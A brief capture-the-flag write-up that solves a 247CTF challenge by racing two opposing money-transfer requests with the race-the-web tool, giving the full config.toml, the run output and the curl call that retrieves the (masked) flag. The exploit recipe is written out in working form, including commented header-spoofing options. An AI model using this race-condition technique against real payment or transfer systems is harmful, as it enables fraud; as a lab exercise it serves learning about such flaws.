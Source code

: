 exploit race condition

2 type request (many) send in multi thread,
it's will make occure the race condition

I used super useful and strong tool,,

https://github.com/TheHackerDev/race-the-web

this tool is are so nice and fast

```
->$ race-the-web config.toml
```
this tool requre the config.toml in argument:

request type1: ?to=1&from=2&amount=50.
request type2: ?to=2&from=1&amount=50.

config.toml
```
# Specify the first request
[[requests]]
    # Use the GET request method
    method = "GET"
    # Set the URL target. Any valid URL is accepted, including ports, https, and parameters.
    url = "https://e634a9e3f05457b9.247ctf.com/?to=2&from=1&amount=50"
    # Set the request body.
    # body = "body=text"
    # Set the cookie values to send with the request to this target. Must be an array.
    #cookies = ["",""]
    # Set custom headers to send with the request to this target. Must be an array.
    #headers = ["X-Originating-IP: 127.0.0.1", "X-Remote-IP: 127.0.0.1"]
    # Follow redirects
    #redirects = true

# Specify the second request
[[requests]]
    # Use the POST request method
    method = "GET"
    # Set the URL target. Any valid URL is accepted, including ports, https, and parameters.
    url = "https://e634a9e3f05457b9.247ctf.com/?to=1&from=2&amount=50"
    # Set the request body.
    #body = "val=1000"
    # Set the cookie values to send with the request to this target. Must be an array.
    #cookies = ["",""]
    # Set custom headers to send with the request to this target. Must be an array.
    #headers = ["X-Originating-IP: 127.0.0.1", "X-Remote-IP: 127.0.0.1"]
    # Do not follow redirects
    #redirects = false

```

run 
```
->$ race-the-web config.toml 
Requests begin.
[VERBOSE] Sending 200 GET requests to https://e634a9e3f05457b9.247ctf.com/?to=1&from=2&amount=50
[VERBOSE] Sending 200 GET requests to https://e634a9e3f05457b9.247ctf.com/?to=2&from=1&amount=50
```

finish

```
->$ curl https://e634a9e3f05457b9.247ctf.com/?flag\&from=2
247CTF{xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx}
```

